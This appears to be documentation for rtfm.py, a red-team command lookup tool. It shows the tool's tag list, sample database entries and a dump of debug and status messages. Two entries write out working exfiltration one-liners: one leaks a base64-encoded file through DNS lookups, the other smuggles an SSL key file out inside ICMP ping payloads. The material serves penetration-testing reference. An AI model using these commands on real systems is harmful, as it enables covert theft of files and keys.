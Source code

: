 All the Tags known about can be shown through -Dt, Currently a few typos that will be fixed in version 0.9.9:
```
 $ rtfm.py -Dt
 | linux |  | bash |  | text manipulation |  | cisco |  | networking |  | loop |  | pivoting |  | files |  | passwords |  | enumeration |  | user information |  | interesting |  | scanning |  | hp |  | brute |  | http |  | web application |  | XSS |  | cookies |  | metasploit |  | certificates |  | stealth |  | smb |  | MitM |  | dns |  | package management |  | reverse shells |  | Windows |  | perl |  | python |  | php |  | ruby |  | sql injection |  | mysql |  | shell |  | mssql |  | Oracle |  | users |  | wireless |  | wifi |  | configuration |  | av evasion |  | powershell |  | memory |  | impacket |  | filesystem |  | IIS |  | process management |  | privilege escalation |  | remote command shell |  | hashes |  | recon |  | cracking |  | nessus |  | subnets |  | packet capture |  | reference |  | web address |  | java |  | solaris |  | forensics |  | ldap |  | Anti Virus |  | GIT |  | interesting  |  | Cloud |  | RDP |  | shells |  | encryption |  | Troll |  | buffer overflow |  | mona |  | interseting |  | brute force |  | Apple |  | encoding |  | ascii |  | web app |  | Cyber Essentials |  | tools |  | code execution |  | jsp | 
```

The next one you will want is -R, this is for searching for a 'remark' (aka comment, didn't want two c flags), this is to search the comments field and is more along the lines of searching for techniques or generic terms such as 'X11' or 'exfil': 
```
+----------------+------------------------------------------------------------------------------------+
| Added By Innes | Cmd ID : 384                                                                       |
+----------------+------------------------------------------------------------------------------------+
| Command        | for line in `base64 -w 62 [file]`; do host $line.[hostname]; done                  |
|                |                                                                                    |
| Comment        | exfil file through DNS, may want to encrypt, also assuming you have a short domain |
| Tags           | linux                                                                              |
|                | bash                                                                               |
|                | loop                                                                               |
|                | interesting                                                                        |
| Date added     | 2017-06-19                                                                         |
| References     | https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504                  |
+----------------+------------------------------------------------------------------------------------+
+----------------+--------------------------------------------------------------------------------------------------+
| Added By Innes | Cmd ID : 386                                                                                     |
+----------------+--------------------------------------------------------------------------------------------------+
| Command        | ping -p 11010101010101010101010101010199 -c 1 -M do 127.0.0.1 -s 32; for line in `base64         |
|                | sslfile.key | xxd -p -c 14`; do line2=`echo "11 $line 99" |tr -d ' '`; ping -p $line2 -c 1 -M do |
|                | 127.0.0.1 -s 32; done; ping -p 11101010101010101010101010101099 -c 1 -M do 127.0.0.1 -s 32       |
|                |                                                                                                  |
| Comment        | Exfil over icmp                                                                                  |
```

[DEBUG]: Options Set: {'insert': None, 'remark': 'help', 'printer': None, 'dump': None, 'author': 'innes', 'cmd': 'rtfm', 'update': None, 'debug': True, 'tag': 'linux', 'date': '2017-05-10', 'delete': None, 'refer': None}
[DEBUG]: S: SELECT c.cmdid, c.cmd, c.cmnt, c.date, c.author, group_concat(DISTINCT tc.tag), group_concat(DISTINCT ref) FROM tblcommand c JOIN tbltagmap tm ON tm.cmdid = c.cmdid JOIN tbltagcontent tc ON  tc.tagid = tm.tagid JOIN tblrefmap rm ON rm.cmdid = c.cmdid JOIN tblrefcontent rc on rc.id = rm.refid WHERE c.cmd LIKE ?  AND c.cmnt LIKE ?  AND c.author LIKE ?  AND c.date = ? GROUP BY c.cmdid  HAVING  group_concat(tc.tag) like ? 
[DEBUG]: W: ['%rtfm%', '%help%', '%innes%', '2017-05-10', '%linux%']
[DEBUG]: This Returned : [(1, 'rtfm.py -c [command] -t [tag],[tag] -C [comment] -p P', 'Helpception, search for a command with two tags and a comment', '2017-05-10', 'Innes', 'linux', 'https://github.com/leostat/rtfm,https://necurity.co.uk/osprog/2017-02-27-RTFM-Pythonized/index.html')]
[WARNING]: No DB, please run rtfm -u
[OK]: This may appear to hang. Run with debug to get more info
[OK]: Program version information:
[OK]: Your up to date :
[OK]: Added Rows :1
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Refs
[OK]: Hopefully added lots of new commands
[OK]: Parsed Line of update
[OK]: Hopefully fixed lots of commands
[OK]: Update complete
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added tags
[OK]: Added a new Ref and a refmap
[OK]: Added Rows : 2
[OK]: New Top ID : 491 | Number of CMD's Added : 2
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: This tags everything without tags,  mainly for DB init
[OK]: Enter blank line to commit changes
[WARNING]: Number left :22
[OK]: Command ID : 467
[OK]:         Command    : Test Command
[OK]:         Comment    : My comment
[OK]: v These are known tags